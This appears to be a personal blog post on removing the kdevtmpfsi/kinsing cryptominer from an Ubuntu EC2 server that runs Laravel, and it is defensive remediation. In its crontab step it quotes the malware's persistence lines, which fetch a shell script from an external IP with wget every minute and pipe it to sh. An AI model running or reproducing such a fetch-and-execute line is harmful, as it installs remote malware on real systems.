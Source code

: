 ```yaml
---
title: AWS EC2 instance used up CPU 100% - Malware kdevtmpfsi
date: 2021-02-25 22:53:05
tags:
- aws
- ubuntu
- linux
- lemp
- laravel
- malware
---
```


I was wondering what's wrong with my server _(host Laravel web app)_,
it's fine after reboot the instance, but after a while it become very
slow, and CPU 100%

I'm using **Ubuntu 20.04.2 LTS**

Run

```
$ htop
```

![kdevtmpfsi](/images/posts/2021-02-25-AWS-EC2-instance-used-up-CPU-100-Malware-kdevtmpfsi/kdevtmpfsi.png)

Then I found [this post](https://stackoverflow.com/questions/60151640/kdevtmpfsi-using-the-entire-cpu/)

### 1. kill the process & delete the file

```
$ sudo killall kdevtmpfsi
$ sudo killall kinsing

$ sudo find / -iname kdevtmpfsi* -exec rm -fv {} \;
$ sudo find / -iname kinsing* -exec rm -fv {} \;

$ sudo echo "kdevtmpfsi is fine now" > /tmp/kdevtmpfsi
$ sudo echo "kinsing is fine now" > /tmp/kinsing
$ sudo chown root:root /tmp/kdevtmpfsi /tmp/kinsing
$ sudo chmod 0444 /tmp/kdevtmpfsi
$ sudo chmod 0444 /tmp/kinsing
```

### 2. Check the `www-data` crontab 

```
$ sudo crontab -u www-data -e
```

If you see this, just remove them

```
* * * * * wget -q -O - http://195.3.146.118/lr.sh | sh > /dev/null 2>&1
* * * * * wget -q -O - http://195.3.146.118/lr.sh | sh > /dev/null 2>&1
```

### 3. Patch Laravel

Turn off debug

```
APP_DEBUG=false
```

Update composer package `facade/ignition` to at least `2.5.1`

### 4. Reboot instance

After reboot it's working fine

## References:

- [kdevtmpfsi using the entire CPU](https://stackoverflow.com/questions/60151640/kdevtmpfsi-using-the-entire-cpu/66364005#66364005)
